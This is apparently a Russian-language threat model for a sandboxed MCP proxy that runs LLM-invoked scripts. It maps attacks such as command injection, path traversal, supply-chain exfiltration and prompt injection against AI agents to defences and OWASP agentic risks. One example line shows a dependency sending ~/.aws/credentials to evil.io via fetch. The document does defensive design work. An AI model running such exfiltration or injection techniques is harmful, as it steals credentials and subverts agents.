

# 03 — Модель угроз

## Кого мы считаем противником

| Актор | Доверие | Комментарий |
|---|---|---|
| Пользователь за клавиатурой | доверенный | Это его машина и его решения |
| Модель (LLM) | **условно доверенная** | Не злонамеренна, но управляема содержимым, которое читает |
| Содержимое, которое модель читает (логи, файлы, вывод инструментов, веб) | **недоверенное** | Основной вектор |
| Содержимое репозитория (`package.json`, скрипты, манифест) | **недоверенное** | Может быть изменено PR'ом, зависимостью или самой моделью |
| Зависимости (`node_modules`) | **недоверенные** | Supply chain |
| Другие процессы пользователя | недоверенные | Могут попытаться дотянуться до IPC-сокета |

Ключевой сдвиг относительно наивной модели: **репозиторий недоверенный**.
Именно из этого следует необходимость песочницы и lock-файла манифеста.

## Две линии обороны

Их часто путают, а они защищают от разного.



**Валидатор не видит внутрь процесса.** Вот что происходит при идеально валидном вызове:

```
pnpm test
 └─ читает package.json из репо (его мог изменить кто угодно)
     └─ запускает vitest
         └─ импортирует ~1200 пакетов из node_modules
             └─ один из них в postinstall делает
                fetch('https://evil.io', {body: readFileSync('~/.aws/credentials')})
```

Параметры валидны. Бинарь в allowlist. Директория правильная. Прокси отработал
безупречно — и слил ключи. Без второй линии обороны прокси ровно настолько безопасен,
насколько безопасен `node_modules`.

## Карта атак

| # | Атака | Источник | Линия | Чем ловим |
|---|---|---|---|---|
| A1 | Инъекция команды через параметр | базовая | 1 | argv-only + regex/enum схемы |
| A2 | Path traversal (`../../.ssh/id_rsa`) | базовая | 1 | realpath + root confinement |
| A3 | Симлинк-эскейп из разрешённой директории | базовая | 1+2 | realpath **после** резолва + seatbelt |
| A4 | Запуск не того бинаря (PATH hijack) | базовая | 1 | резолв в абсолютный путь из allowlist |
| A5 | **Кража токена IPC → спавн через прокси** | [спека MCP](https://modelcontextprotocol.io/specification/draft/basic/security_best_practices) | арх. | каталог 0700 + сокет 0600 + токен рукопожатия + И5 (только имена рецептов) |
| A6 | **Rug pull манифеста между вызовами** | CVE-2025-54136 | 1 | `mcpproxy.lock` + diff-approve |
| A7 | **Инъекция в `description` рецепта** | tool poisoning / line jumping | 1 | санитизация при генерации `tools/list` |
| A8 | **Индиректная инъекция через вывод скрипта** | OWASP ASI01 | 1 | untrusted-обёртка + скан + обрезка |
| A9 | **Эксфильтрация через postinstall зависимости** | OWASP ASI04 | 2 | сетевой доменный allowlist |
| A10 | Чтение `~/.ssh`, `~/.aws`, keychain | базовая | 2 | `denyRead` в профиле |
| A11 | **Запись в `.git/hooks`, `.zshrc` → исполнение позже** | mandatory deny из srt | 2 | неснимаемые deny-пути |
| A12 | Утечка секретов из env в вывод | базовая | 1+2 | env-allowlist на входе, редакция на выходе |
| A13 | Runaway-процесс, форк-бомба, заливание контекста | базовая | 2 | timeout + SIGKILL по группе процессов, cap на stdout. **Настоящих `setrlimit` нет** — см. `10-honest-limitations.md` |
| A14 | **Подтверждение подделано через elicitation** | OWASP ASI09 | 5 | authoritative-апрув только out-of-band в Electron |
| A15 | XSS/RCE в самом Electron | Electron security | арх. | contextIsolation, sandbox, CSP, валидация IPC |

Строки A5–A9, A11, A14 — прямой результат разведки индустрии, а не умозрительные.
См. [04-research-findings.md](04-research-findings.md).

## Соответствие OWASP Top 10 for Agentic Applications 2026

Опубликован 9 декабря 2025. Цитата для титульного слайда:
*«an agent's blast radius equals the sum of every credential, tool, and API it can reach»*.

| ID | Риск | Покрытие | Чем |
|---|---|---|---|
| ASI01 | Agent Goal Hijack | ◐ частично | Вывод как untrusted; но саму модель мы не контролируем |
| **ASI02** | **Tool Misuse & Exploitation** | **● ядро** | Рецепты вместо shell, валидация параметров, least-agency scoping |
| ASI03 | Identity & Privilege Abuse | ◐ частично | Env-allowlist, минимальные привилегии процесса |
| ASI04 | Agentic Supply Chain | ◐ частично | Сетевой allowlist ловит эксфильтрацию из зависимостей |
| **ASI05** | **Unexpected Code Execution (RCE)** | **● ядро** | ОС-песочница + deny-by-default egress |
| ASI06 | Memory & Context Poisoning | ○ вне scope | |
| ASI07 | Insecure Inter-Agent Communication | ◐ частично | Аутентифицированный IPC |
| ASI08 | Cascading Failures | ○ вне scope | |
| **ASI09** | **Human-Agent Trust Exploitation** | **● ядро** | Out-of-band подтверждения вне контекста модели |
| ASI10 | Rogue Agents | ◐ частично | Полный аудит + kill switch |

● закрываем · ◐ частично · ○ вне scope

## Что мы сознательно не защищаем

См. [10-honest-limitations.md](10-honest-limitations.md). Коротко: домены, а не содержимое
трафика; злонамеренный пользователь; ядро macOS; сама модель.
